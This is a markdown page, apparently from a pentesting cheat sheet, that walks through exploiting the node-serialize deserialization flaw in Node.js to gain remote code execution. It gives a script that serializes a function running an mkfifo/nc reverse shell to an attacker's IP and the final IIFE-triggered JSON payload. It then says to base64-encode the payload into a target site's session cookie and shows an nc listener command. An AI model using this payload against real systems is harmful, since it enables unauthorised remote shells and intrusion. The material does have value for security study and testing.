 ```yaml
---
title: Node.js Deserialization Attack
description: Node.js deserialization is vulnerable to remote command executions.
tags:
  - Reverse Shell
  - Web
refs:
  - https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/
date: 2023-01-02
draft: false
---
```


## Cookie Reverse Shell

### 1. Generate a Payload

We can use the online tools like [RunKit](https://npm.runkit.com/node-serialize) to execute the node package.  
If you want to do in your local environment, you need to install a npm package first.

```bash
mkdir test
cd test
npm install node-serialize
```

Next, create the payload for serialization to execute a reverse shell.  
For instance, the file is named “serialize.js”.

```js
let y = {
  rce: function() {
    require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> <local-port> >/tmp/f', function(error, stdout, stderr) { console.log(stdout); });
  },
};

let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

In the above code, change **"\<local-ip\>"** and **"\<local-port\>"** to match your environment.  

Execute node to generate the payload.

```sh
node serialize.js
```

Our payload generated in terminal.  
Next, we need to add IIFE brackets **"()"** after the function in the generated payload. By doing this, the function will invoke when the object created. For details, please see [the awesome post](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

The final payload is as below:

```sh
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> <local-port> >/tmp/f', (error, stdout, stderr) => { console.log(stdout); }); } ()"}
```

In addition, edit the key name (**”rce”**) and remove **“\n”** characters as you want.

### 2. Encode a Payload by Base64 and Add to Cookie

Copy the above json object and encode it by Base64, then copy the encoded text.  
Paste it to the Cookie value of HTTP header in target website.

```sh
Cookie: session=eyJyY2U...iAgfSJ9==
```

### 3. Execute Reverse Shell

Start a listener for reverse shell

```sh
nc -lvnp <local-port>
```

In target website, reload the page.  
You should get a shell.

